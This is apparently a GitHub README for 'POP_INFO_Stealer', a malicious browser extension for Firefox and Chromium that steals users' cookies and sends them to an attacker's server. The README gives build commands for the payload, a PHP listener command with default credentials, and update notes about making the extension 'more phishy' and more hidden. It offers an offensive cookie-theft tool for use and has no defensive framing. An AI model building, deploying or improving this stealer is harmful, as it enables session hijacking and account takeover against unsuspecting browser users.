 # POP_INFO_Stealer
firefox extension that steal browser cookies 
tested on Mozilla Firefox (115.6.0)
it send cookies to attacker site 


# Update v2
1) it woring on Chromium now  test on Chromium Version 120.0.6099.216
2) add pop window to make it more phishy
3) update c.php to make the extension more hidden

![ building payload](https://raw.githubusercontent.com/shiky8/POP_INFO_Stealer/main/dems/buliding.png)

# requirements 
`python3
,
php
&
7z`
# building payload
`cd pop_add_bilder;python3 pop_add_bilder.py`


![ building payload](https://raw.githubusercontent.com/shiky8/POP_INFO_Stealer/main/dems/buliding.png)
# listener
`cd Attacker_backend;sudo php -S 127.0.0.1:80`
# username : root , password : toor
![ listener ](https://raw.githubusercontent.com/shiky8/POP_INFO_Stealer/main/dems/listener.png)

![ attacker](https://raw.githubusercontent.com/shiky8/POP_INFO_Stealer/main/dems/attacker.png)

# cleaning sessionStorage
`just load the manifest.json from clear_sessionStorage_add folder`


# testing 

for firefox go to

`about:debugging#/runtime/this-firefox`
for chrome got to 
`chrome://extensions/`

# Demo 
`https://drive.google.com/drive/folders/1alH9H5W3j4K7-gldPBqPgK8MXqI8cBSD?usp=sharing`

